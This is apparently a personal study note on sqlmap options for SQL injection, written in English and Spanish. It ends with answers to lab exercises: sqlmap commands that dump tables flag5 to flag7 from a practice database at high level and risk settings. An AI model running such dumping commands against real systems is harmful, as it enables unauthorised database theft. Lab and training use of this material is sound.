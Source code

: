### Text-only
Use `--text-only` to compare visible content, ignoring HTML tags.

### Techniques
Use `--technique=<types>` to restrict SQLi tests to specific techniques.

#### Example:
```bash
sqlmap -u www.example.com/?id=1 --technique=BEU
```
- Tests only boolean-based blind (`B`), error-based (`E`), and UNION-based (`U`) techniques.

---

## UNION SQLi Tuning

### Columns and Characters
- Use `--union-cols=<num>` to specify the number of columns.
- Use `--union-char=<char>` to define alternative values.

### FROM Clause
For databases like Oracle, use `--union-from=<table>` to specify a table for the UNION query.

---

## Summary

- **Use `--prefix` and `--suffix`:** For custom boundaries.
- **Adjust `--level` and `--risk`:** To increase coverage.
- **Fine-tune with advanced options:** Use `--code`, `--titles`, `--string`, `--text-only`, and `--technique`.
- **Optimize UNION SQLi:** Specify columns, characters, or FROM clauses when needed.

SQLMap's flexibility allows precise tuning for specific scenarios, making it a powerful tool for SQL injection detection and exploitation.

Ejercicio4
  What's the contents of table flag5? (Case #5)
  sqlmap -r Case5.txt --batch --dbs para sacar la base de datos
    sqlmap -r Case5.txt --batch --dump -T flag5 -D testdb --no-cast --time-sec=10 --level=5 --risk=3, el --batch,--dump, llevel y risk usarlo casi siempre, el time cuando vaya lento o de un error de lag

Ejercicio5
  What's the contents of table flag6? (Case #6)
    sqlmap -r Case6.txt --batch --dump -T flag6 -D testdb --no-cast --level=5 --risk=3 --prefix='`)' --> como se que es ese prefijo, un writeup

Ejercicio6
  What's the contents of table flag7? (Case #7)
    sqlmap -r Case7.txt --batch --dump -T flag7 -D testdb --no-cast --level=5 --risk=3 --union-cols=5 --dbms=MySQL

---